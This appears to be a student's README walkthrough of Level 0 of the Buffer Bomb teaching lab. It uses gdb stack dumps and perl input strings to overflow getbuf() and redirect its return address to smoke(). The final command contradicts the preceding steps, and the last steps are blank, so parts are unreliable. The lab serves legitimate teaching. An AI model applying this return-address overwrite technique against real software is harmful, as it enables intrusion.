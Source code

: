 Buffer Bomb
===========
5 phases where you exploit the getbuf() function in C and manipulate the outcome of the bufbomb executable file.

<h1>Level 0</h1>

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```Smoke()```

   To find the address of function ```Smoke()``` type:
   ```unix> objdump -d bufbomb | less```

   My address for ```Smoke()``` = 080490aa <smoke>:

   <b>WRITE DOWN the address for ```Smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
```
unix> gdb bufbomb
(gdb) break getbuf
(gdb) run -u quinnliu
(gdb) break *getbuf+17
(gdb) disas
(gdb) info registers
```

Gives you:

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
=> 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
   0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
(gdb) info registers
eax            0x45789ae        72845742
ecx            0x45789ae        72845742
edx            0x3c1048 3936328
ebx            0x0      0
esp            0x55683318       0x55683318
ebp            0x55683350       0x55683350
esi            0x55686018       1432903704
edi            0xc60    3168
eip            0x8048c0a        0x8048c0a <getbuf+6>
eflags         0x216    [ PF AF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

<b>WRITE DOWN %ebp address as you will be using it later. In my case:</b>

%ebp = 0x55683350 

getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

Now quit out
```
(gdb) q
A debugging session is active.

        Inferior 1 [process 29088] will be killed.

Quit anyway? (y or n) y
```

Now create a test input file called "hex" and type a few commands
```
unix> perl -e 'print "A"x32 '> hex
unix> gdb bufbomb
(gdb) break getbuf
(gdb) break *getbuf+17
(gdb) run -u quinnliu < hex
(gdb) x/20x $esp
(gdb) disas
```

Gives you:

```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
=> 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
   0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
```

Next type these commands:
```
(gdb) continue
(gdb) disas # notice that we are now at <+17>
(gdb) x/20x $esp
```

Gives you:
```
(gdb) continue
Continuing.

Breakpoint 2, 0x08048c15 in getbuf ()
(gdb) disas
Dump of assembler code for function getbuf:
   0x08048c04 <+0>:     push   %ebp
   0x08048c05 <+1>:     mov    %esp,%ebp
   0x08048c07 <+3>:     sub    $0x38,%esp
   0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
   0x08048c0d <+9>:     mov    %eax,(%esp)
   0x08048c10 <+12>:    call   0x8048b4a <Gets>
=> 0x08048c15 <+17>:    mov    $0x1,%eax
   0x08048c1a <+22>:    leave
   0x08048c1b <+23>:    ret
End of assembler dump.
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
```

We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

startingAddressOfBufVariable = 0x55683328
%ebp = 0x55683350 # I told you to write this down earlier

buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
            = 0x55683350   +4 - 0x55683328
            # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
            = 2C # in hexadecimal = 44 bytes # in decimal

We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

Now quit out of gdb with ```q``` command and type:

```
bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
bash-4.1$ ls
bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
bash-4.1$ less hex2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

Now use hex2 as your new input in gdb:
```
unix> gdb bufbomb
(gdb) break getbuf
(gdb) break *getbuf+17
(gdb) run -u quinnliu < hex2
(gdb) x/20x $esp
(gdb) continue
(gdb) x/20x $esp 
```

On the second call of ```(gdb) x/20x $esp``` you will see:

```
(gdb) x/20x $esp
0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
(gdb)
```

Understand that our input file is:
```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD```
where A = 41, B = 42, C = 43, & D = 44

So DDDD = 0x44444444

After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```Smoke()```!!!!!

Find where you wrote down the address of ```Smoke()``` earlier. Mine is = 080490aa

Because my machine is little endian the least significant byte is first.

So 
```08 04 90 aa``` => ```aa 90 04 08```

Now exit out of gdb:
```
bash-4.1$ perl -e 'print "AA"x32, "BB"x4, "CC"x4, "DD"x4, "aa900408" '>hex3
```



























```




3. create the buffer overflow string 


4. force the function getbuf to return to fucntion ```Smoke()``` instead of returning the value 1.


5. success!!!

